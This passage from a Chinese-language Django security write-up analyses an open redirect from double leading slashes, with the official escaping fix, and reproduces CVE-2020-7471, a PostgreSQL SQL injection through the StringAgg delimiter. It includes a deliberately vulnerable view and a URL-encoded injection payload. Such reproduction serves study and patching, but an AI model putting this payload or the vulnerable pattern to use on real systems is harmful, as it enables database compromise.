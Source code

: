 因为`PREPEND_WWW`设置的原因，不修改的情况下`redirect_url`为空，判断`path != request.get_full_path()`的时候，`path`为`/index/`，而`request.get_full_path()`没有添加反斜杠所以为请求的路径`/index`，不相等则赋值给`redirect_url`，返回一个跳转。

整个流程走下来，大概就知道问题出在哪里， 获取跳转路径的时候，是从域名后整个路径地址全部返回。使用urlparse解释获取路径

```python
>>> urllib.parse.urlparse('http://127.0.0.1//www.baidu.com')
ParseResult(scheme='http', netloc='127.0.0.1', path='//www.baidu.com', params='', query='', fragment='')
```

获取new_path 后则直接给响应跳转。如果需要减轻这个问题，还可以设置`PREPEND_WWW=True`带域名跳转。但对多级域名和IP地址就不好用。

官方修补的方式是从`from django.utils.http import escape_leading_slashes`导入一个编码斜杠函数。

在`get_full_path_with_slash`中判断获取到的路径是否有两个斜杠，有的话则返回一个编码的形式。

```python
def escape_leading_slashes(url):
    """
    If redirecting to an absolute path (two leading slashes), a slash must be
    escaped to prevent browsers from handling the path as schemaless and
    redirecting to another host.
    """
    if url.startswith('//'):
        url = '/%2F{}'.format(url[2:])
    return url
```

### CVE-2020-7471

受影响的版本：Django 1.11.x < 1.11.28，Django 2.2.x < 2.2.10，Django 3.0.x < 3.0.3

postgres的sql注入：https://www.djangoproject.com/weblog/2020/feb/03/security-releases/

环境取自：https://github.com/Saferman/CVE-2020-7471

根据官方显示，是使用`django.contrib.postgres.aggregates.StringAgg`分隔符导致的注入。

配置好数据库，正确连接后开始复现一下。为了方便调试，先配置view

```
def select(request):
    if request.GET.get('id'):
        id = request.GET.get('id')
        str = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=id))
        return HttpResponse(str)
    else:
        return HttpResponse('提交id')
```

然后运行脚本存储数据。

请求如下数据的时候`/select/?id=%2d%27%29%20%41%53%20%22%6d%79%64%65%66%69%6e%65%64%6e%61%6d%65%22%20%46%52%4f%4d%20%22%76%75%6c%5f%61%70%70%5f%69%6e%66%6f%22%20%47%52%4f%55%50%20%42%59%20%22%76%75%6c%5f%61%70%70%5f%69%6e%66%6f%22%2e%22%67%65%6e%64%65%72%22%20%4c%49%4d%49%54%20%32%20%4f%46%46%53%45%54%20%31%20%2d%2d`会触发注入的效果。

